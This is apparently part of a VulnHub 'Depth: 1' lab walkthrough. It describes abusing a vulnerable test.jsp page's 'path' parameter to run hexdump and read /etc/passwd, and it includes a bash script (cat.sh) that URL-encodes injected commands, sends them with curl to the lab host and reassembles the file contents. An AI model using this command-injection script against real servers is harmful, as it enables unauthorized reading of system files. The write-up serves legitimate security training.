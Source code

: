 For some reason, the HTML table shows token two, three, four, eight, and beyond. I'm able to leverage `hexdump` to act like `cat` to display `/etc/passwd` like so.

![screenshot-2](/assets/images/posts/depth-1-walkthrough/screenshot-2.png)

I wrote `cat.sh` to extract and display the printable ASCII characters from the hexadecimal numbers.

<div class="filename"><span>cat.sh</span></div>
```bash
#!/bin/bash

_HOST=192.168.100.4
_PORT=8080
_TEST=test.jsp
_PATH=path
__CAT="hexdump -C "
__CMD="${__CAT}$1"

function urlencode() {
    old_lc_collate=$LC_COLLATE
    LC_COLLATE=C

    local length="${#1}"
    for (( i = 0; i < length; i++ )); do
        local c="${1:i:1}"
        case $c in
            [a-zA-Z0-9.~_-]) printf "$c" ;;
            *) printf '%%%02X' "'$c" ;;
        esac
    done

    LC_COLLATE=$old_lc_collate
}

CMD=$(urlencode "$__CMD")

curl -s $_HOST:$_PORT/$_TEST?$_PATH=$CMD \
| grep '|' \
| cut -d'|' -f2 \
| tr -d '\n' \
| tr '.' '\n'
```


[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com